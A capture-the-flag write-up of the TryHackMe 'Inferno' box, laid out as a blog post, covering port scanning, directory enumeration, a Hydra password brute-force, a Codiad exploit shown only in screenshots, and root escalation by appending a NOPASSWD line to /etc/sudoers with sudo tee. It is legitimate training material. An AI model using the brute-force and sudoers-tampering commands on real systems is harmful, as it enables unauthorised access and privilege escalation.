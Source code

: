 ```yaml
---
title: "Inferno TryHackMe"
layout: post
date: 2023-08-19 19:00
tag: 
- TryHackMe
- Pentesting
- Inferno
- Linux
- CTF
- Meduim
image: https://tryhackme-images.s3.amazonaws.com/room-icons/04838068cabd2452b322e06418cce864.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim real Life machine + CTF.

---
# Nmap

```bash
nmap -A -T4 10.10.144.11   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-19 13:05 +01
Nmap scan report for 10.10.144.11
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dantes Inferno
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I used the common.txt wordlist but I found nothing, then I used the meduim.txt and found the */inferno* endpoint which needed an authentification :

# Gobuster

```bash
gobuster dir -u http://10.10.144.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/08/19 13:14:59 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 459]
```

The only way was to bruteforce it using **Hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.144.11 http-get /inferno
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
```

Valid combination found : **admin:dante1**

![!\[\[Pasted image 20230819133810.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819133810.png>)

The user has used the same credentials found before (**admin:dante1**).

<p>I saw the title of the webpage 'Codiad' and I went to look for possible exploits :</p>

![!\[\[Pasted image 20230819141402.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141402.png>)

![!\[\[Pasted image 20230819135144.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135144.png>)

Now I'm in as www-data :

![!\[\[Pasted image 20230819135158.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135158.png>)

![!\[\[Pasted image 20230819135133.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135133.png>)

# www-data -> dante


I found a dat file in */home/dante/Downloads* which contains an encoded hex string :

![!\[\[Pasted image 20230819135823.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135823.png>)

The decoded output contains the user dante's password :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230819135800.png>)

**dante : V1rg1l10h3lpm3**

Now I'm in as *dante* :

![!\[\[Pasted image 20230819135948.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135948.png>)

# PE

![!\[\[Pasted image 20230819140016.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819140016.png>)

We see in the output of *sudo -l* that dante can run */usr/bin/tee* as root, **GTFObins** will helps us to exploit that:

[https://gtfobins.github.io/gtfobins/tee](https://gtfobins.github.io/gtfobins/tee)

```bash
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers
```

BOOM I'm root!

And now we can read the root flag and Voilà :

![!\[\[Pasted image 20230819141116.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141116.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>